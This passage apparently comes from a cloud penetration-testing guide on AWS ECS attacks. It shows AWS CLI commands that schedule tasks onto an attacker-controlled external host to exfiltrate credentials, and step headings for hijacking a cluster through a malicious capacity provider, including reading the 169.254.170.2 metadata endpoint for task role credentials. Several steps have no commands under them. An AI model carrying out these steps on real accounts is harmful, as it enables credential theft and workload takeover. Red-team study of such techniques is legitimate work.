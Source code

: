 ```bash
     "memory": 128,
     "logConfiguration":{"logDriver":"awslogs","options":{"awslogs-region":"us-east-1","awslogs-group":"/ht/ecs/anywhere","awslogs-stream-prefix":"steal"}}
    }
  ]
}
JSON
aws logs create-log-group --log-group-name /ht/ecs/anywhere || true
aws ecs register-task-definition --cli-input-json file://td-external.json
CI=$(aws ecs list-container-instances --cluster ht-ecs-anywhere --query 'containerInstanceArns[0]' --output text)
aws ecs start-task --cluster ht-ecs-anywhere --task-definition ht-external \
  --container-instances $CI
```

6) From here you control the host that runs the tasks. You can read task logs (if awslogs) or directly exec on the host to exfiltrate credentials/data from your tasks.

#### Command example (placeholders)

### Hijack ECS Scheduling via Malicious Capacity Provider (EC2 ASG takeover)

An attacker with permissions to manage ECS capacity providers and update services can create an EC2 Auto Scaling Group they control, wrap it in an ECS Capacity Provider, associate it to the target cluster, and migrate a victim service to use this provider. Tasks will then be scheduled onto attacker-controlled EC2 instances, allowing OS-level access to inspect containers and steal task role credentials.

Commands (us-east-1):

- Prereqs

- Create Launch Template for ECS agent to join target cluster

- Create Auto Scaling Group

- Create Capacity Provider from the ASG

- Associate the Capacity Provider to the cluster (optionally as default)

- Migrate a service to your provider

- Verify tasks land on attacker instances

- Optional: From the EC2 node, docker exec into target containers and read http://169.254.170.2 to obtain the task role credentials.

- Cleanup

**Potential Impact:** Attacker-controlled EC2 nodes receive victim tasks, enabling OS-level access to containers and theft of task IAM role credentials.
